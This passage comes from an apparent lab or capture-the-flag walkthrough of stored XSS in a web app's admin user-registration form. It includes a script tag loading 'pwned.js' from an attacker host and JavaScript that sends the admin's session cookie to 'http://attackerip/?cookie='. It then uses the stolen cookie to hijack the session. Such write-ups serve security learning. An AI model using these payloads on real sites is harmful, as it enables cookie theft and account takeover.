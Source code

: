 If we go back to the [http://192.168.0.100/admin/admin.php](http://192.168.0.100/admin/admin.php) address, where users and their roles are managed, we can see that our account has been created, but it is inactive.

So will try to create another account, but this time we will play with XSS. We fill out all the form fields, but in the Firstname and Lastname fields, we will use the following javascript tag:

```
<script>alert("XSS")</script>
```

To check if the alert is executed, we go back to [http://192.168.0.100/admin/admin.php](http://192.168.0

.100/admin/admin.php).

And indeed, the alert is executed. This confirms that this part of the system is vulnerable to XSS. Now we can try to validate if there is any authenticated user who regularly visits the [http://192.168.0.100/admin/admin.php](http://192.168.0.100/admin/admin.php) address, and use XSS to steal their session cookie and authenticate ourselves as that user.

Let's do the following test: We set up an HTTP server on port 80 using Python to see if we receive any requests from the victim server:

```
python3 -m http.server 80
```

We create another user, but this time in the Firstname field, we put the following:

```
<script src="http://attackerip/pwned.js"></script>
```

We will try to load a file called "pwned.js" that does not exist yet, as we want to confirm if there is a request and once we confirm this request, we will create the script.

Now that we have created the user, let's check the terminal if we receive any requests.


We can see, we have received a request, and there is likely a user constantly checking the new users who register in the system.

Now we can give life to the "pwned.js" file to make that user give us their session cookie without them noticing. Let's try the following script:

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerip/?cookie=' + document.cookie); 
request.send();
```

Now that we have created our script, let's set up the server again with Python and wait for a response.

It worked, we got a response and now we have the cookie. Let's check on the web to which user this cookie belongs. So, let's go back to [http://192.168.0.100/admin/admin.php](http://192.168.0.100/admin/admin.php), press Ctrl+Shift+C and in "Storage" replace the values of "value" with the cookie we obtained, and reload the page.

We see the message "Sorry, as an administrator, you can be authenticated only once a time." So, the cookie belongs to the Administrator, but we cannot have two sessions open simultaneously. Let's remember once again that what we want to achieve is to authenticate as Samuel Lamotte, whose user is inactive.
